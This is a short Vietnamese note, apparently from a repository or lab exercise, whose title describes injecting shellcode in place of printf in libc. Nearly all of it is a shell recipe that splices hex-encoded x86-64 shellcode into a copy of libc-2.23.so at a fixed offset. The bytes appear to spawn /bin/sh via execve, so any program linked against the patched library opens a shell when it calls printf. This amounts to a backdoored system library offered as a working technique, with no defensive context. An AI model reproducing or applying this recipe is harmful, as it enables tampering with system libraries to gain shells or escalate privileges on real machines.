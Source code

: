 Chèn shellcode vào vị trí của hàm printf trong libc

![alt text](image-1.png)



```sh
head -c 344224 /lib64/libc-2.23.so > libc.so.6
echo -ne '\x48\x31\xff\x48\x31\xf6\xe8\x65\x55\x0a\x00\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05' >> libc.so.6
tail -c+344259 /lib64/libc-2.23.so >> libc.so.6
```



![alt text](image-2.png)